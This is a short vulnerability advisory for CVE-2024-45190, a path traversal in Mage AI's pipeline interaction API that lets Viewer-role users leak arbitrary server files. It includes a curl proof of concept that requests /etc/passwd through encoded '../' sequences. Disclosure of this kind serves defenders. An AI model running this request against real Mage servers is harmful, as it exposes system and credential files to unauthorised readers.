 ```yaml
---
description: CVE-2024-45190, MEDIUM, Mage AI pipeline interaction request remote arbitrary file leak
title: Mage AI pipeline interaction request remote arbitrary file leak
date_published: "2024-08-23"
last_updated: "2024-08-23"
xray_id: JFSA-2024-001039605
vul_id: CVE-2024-45190
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Mage AI pipeline interaction request remote arbitrary file leak

## Component

mage-ai

## Affected versions

(,)

## Description

Mage AI allows remote users with the "Viewer" role to leak arbitrary files from the Mage server due to a path traversal in the "Pipeline Interaction" request

## PoC

```bash
curl -X GET
'http://localhost:6789/api/pipelines/example_pipeline/interaction/..%2F..%2F..%2
F..%2Fetc%2Fpasswd?api_key=<USER API KEY>' -H 'Authorization: Bearer
<USER TOKEN>'
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

No references are supplied for this issue

